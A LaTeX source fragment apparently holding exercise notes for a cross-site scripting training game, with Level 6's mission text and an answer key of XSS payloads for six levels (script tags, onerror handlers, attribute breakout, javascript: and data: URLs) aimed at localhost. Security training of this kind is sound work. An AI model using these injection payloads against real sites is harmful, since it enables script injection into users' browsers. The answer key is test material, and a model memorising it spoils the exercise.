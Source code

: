 \begin{Exercise}[label={websec-xss-game}]
		\paragraph{Mission Objective}
		Inject a script to pop up an alert() in the context of the application.
	
	\subsubsection{Level 6}
		\paragraph{Mission Description}
		Complex web applications sometimes have the capability to dynamically load JavaScript libraries based on the value of their URL parameters or part of location.hash. 
		
		This is very tricky to get right -- allowing user input to influence the URL when loading scripts or other potentially dangerous types of data such as XMLHttpRequest often leads to serious vulnerabilities.
		
	
		\paragraph{Mission Objective}
		Find a way to make the application request an external file which will cause it to execute an alert(). 
		
	
\end{Exercise}
\begin{Answer}[ref={websec-xss-game}]
	\subsubsection{Level 1}
	\verb|<script>alert()</script>|
	\subsubsection{Level 2}
	\verb|<img src='stuff' onerror='alert()'>|
	\subsubsection{Level 3}
	\verb|https://localhost:8000/#1.jpg'onload='alert("xss")'|
	\subsubsection{Level 4}
	\verb|?timer=')%3Balert(1)%3Bvar b=('|
	\subsubsection{Level 5}
	\verb|http://localhost:8000/signup?next=javascript:alert(1)|
	\subsubsection{Level 6}
	\verb|http://localhost:8000/#data:text/plain,alert('xss')|
\end{Answer}